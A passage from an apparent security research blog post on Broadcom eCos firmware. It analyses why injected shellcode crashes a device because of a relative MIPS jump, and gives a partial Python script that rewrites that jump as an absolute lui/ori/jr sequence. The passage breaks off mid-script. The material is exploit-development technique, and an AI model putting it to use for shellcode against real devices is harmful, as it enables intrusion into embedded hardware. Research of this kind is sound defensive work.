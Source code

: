 ╎    0x000000e4      02c02021       move a0, s6
└──< 0x000000e8      0800002a       j 0xa8
     0x000000ec      02602021       move a0, s3
     0x000000f0      ffffffff       invalid
     0x000000f4      ffffffff       invalid
     0x000000f8      ffffffff       invalid
{% endhighlight %}

The problematic instruction is at 0x000000e8, which is the jump responsible for our while(1) loop:

{% highlight asm %}
└──< 0x000000e8      0800002a       j 0xa8
{% endhighlight %}

Given that the processor has no knowledge of the fact that our 'function' starts at offset 0x864df1e8 it will think it needs to jump to 0x80004000 (base address) + 0xa8 = 0x800040a8. And that's why the device crash with a PC address of 0x800000a8.

To fix this problem, we need to make this shellcode location aware and make it perform direct jumps rather than relative jumps.

To do so, we need to get the jump destination address. This is the shellcode start address + the relative offset where the loop starts (0x864df1e8 + 0xa8 = 0x864df290).

So we should have something along these lines

{% highlight asm %}
3c03864d    lui v1, 0x864d
3463f290    ori v1, v1, 0xf290
00600008    jr v1
{% endhighlight %}

I wrote the script below to fix this issue. For now only the fixed address can be provided but I plan
on adding support to replace arbitrary relative jumps in any shellcode for Broadcom eCos.

{% highlight python %}
#!/usr/bin/env python3
'''
This code fix relative jumps in shellcode generated for Broadcom eCos.

Author: Quentin Kaiser <quentin@ecos.wtf>
'''
import sys
import struct

if __name__ == '__main__':
    if len(sys.argv) < 3:
        print("Usage: {} shellcode_file jmp_addr".format(sys.argv[0]))
        sys.exit(-1)

    # j 0xa8
    old_instructions = b"\x08\x00\x00\x2a"

    target = int(sys.argv[2], 16)
    target_upper = target >> 16
    target_lower = target - (target_upper * 0x10000)

    # lui v1, target_upper
    new_instructions = b"\x3c\x03" + struct.pack(">H", target_upper)
    # ori v1, v1, target_lower
    new_instructions += b"\x34\x63" + struct.pack(">H", target_lower)
    # jr v1